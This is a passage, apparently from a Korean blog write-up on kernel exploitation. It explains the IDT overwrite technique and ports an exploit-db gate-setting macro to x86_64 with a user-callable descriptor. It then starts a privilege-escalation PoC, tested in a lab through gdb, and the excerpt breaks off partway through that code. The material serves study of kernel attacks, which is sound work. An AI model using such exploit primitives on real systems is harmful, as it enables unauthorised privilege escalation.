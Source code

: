 즉, 위 함수를 익스플로잇 코드 안에 구현함으로써 원하는 인터럽트 번호에 원하는 함수 포인터를 쓸 수 있게 된다.

[2번 링크](https://www.exploit-db.com/exploits/1397)에서는, IDT Entry(Gate)를 매크로를 통해 다음과 같이 설정하고 있다.

```c
#define SET_IDT_GATE(idt,ring,s,addr) \
	(idt).off1 = addr & 0xffff; \
	(idt).off2 = addr >> 16; \
	(idt).sel = s; \
	(idt).none = 0; \
	(idt).flags = 0x8E | (ring << 5);
```

추가적으로, `idtd.dpl` 값이 `3`이면 **유저 모드에서 인터럽트를 발생**시킬 수 있다고 한다.
아래와 같이 `SET_IDT_GATE` 매크로를 직접 `x86_64`로 포팅했다.

```c
#define SET_IDT_GATE(idt, addr) \
	(idt).offset_lo = (uint16_t) (addr & 0xffff); \
	(idt).segment   = 0x10; /* __KERNEL_CS */ \
	(idt).ist       = 0; \
	(idt).zero0     = 0; \
	(idt).type      = 0xe; /* GATE_INTERRUPT */ \
	(idt).dpl       = 3; /* can Execute int in usermode */\
	(idt).p         = 1; \
	(idt).offset_md        = (uint16_t) (addr >> 16); \
	(idt).offset_hi        = (uint32_t) (addr >> 32); \
	(idt).zero1     = 0;

struct idtr {
        uint16_t limit;
        uint64_t base;
} __attribute__ ((packed));

struct idtd {
        uint16_t offset_lo;
        uint16_t segment;
        uint16_t ist:3, zero0: 5, type: 5, dpl: 2, p: 1;
        uint16_t offset_md;
        uint32_t offset_hi;
        uint32_t zero1;
} __attribute__ ((packed));
```

테스트 삼아 아래와 같은 `IDT Overwrite` 테크닉을 이용한 권한 상승 코드를 작성해보았다.
실제 취약점을 이용하여 트리거링 하는 방식이 아니라, 직접 gdb를 통해 첫 `getuid()` 호출시 `rip`레지스터 값을 `exploit()`의 주소로 변경해주어 트리거링하는 방식을 통해 테스트했다.

**PoC Code**
```c
/* partially-controlled write primitive trigger */
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "drv.h"

#define SET_IDT_GATE(idt, addr) \
	(idt).offset_lo = (uint16_t) (addr & 0xffff); \
	(idt).segment   = 0x10; /* __KERNEL_CS */ \
	(idt).ist       = 0; \
	(idt).zero0     = 0; \
```